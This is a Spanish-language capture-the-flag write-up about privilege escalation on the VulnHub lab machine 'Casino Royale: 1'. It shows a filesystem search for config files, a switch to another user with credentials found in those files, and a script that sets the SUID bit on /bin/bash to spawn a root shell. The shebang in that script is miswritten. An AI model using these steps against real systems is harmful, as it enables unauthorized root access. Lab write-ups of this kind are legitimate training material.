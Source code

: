 # ESCALADA DE PRIVILEGIOS
Eh pasado un rato buscando y no eh encontrado una via potencial para escalar privilegios hasta que, pense que por el modelo de la infraestructura. como 
habiamos visto un CMS tambien, buscar los archivos relacionados a config.php, wp-admin.php, etc

```ruby
find / name \*config\* 2>/dev/null 
```
![find](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/vulnhub/images/casinoroyale%3A1/find.png)
![passvvalenka](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/vulnhub/images/casinoroyale%3A1/passvalenka.png)

migramos de usuario con las credenciales de Valenka
![migracion](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/vulnhub/images/casinoroyale%3A1/migracionuser.png)

Creamos un scrip dond le demos permisos SUID a la bash para ponernos como root
```ruby
!#/bin/bash
chmod u+s /bin/bash

bash -p
```

![scriptroot](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/vulnhub/images/casinoroyale%3A1/scriptroot.png)

Navegamos por el directorio flag y para obtener la flag nos pide montarse un server en PHP por un puerto determinado y luego ir a la web 

![flag](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/vulnhub/images/casinoroyale%3A1/flag.png)
![flagfinal](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/vulnhub/images/casinoroyale%3A1/flagfinal.png)

# HEMOS RESUELTO LA MAQUINA!













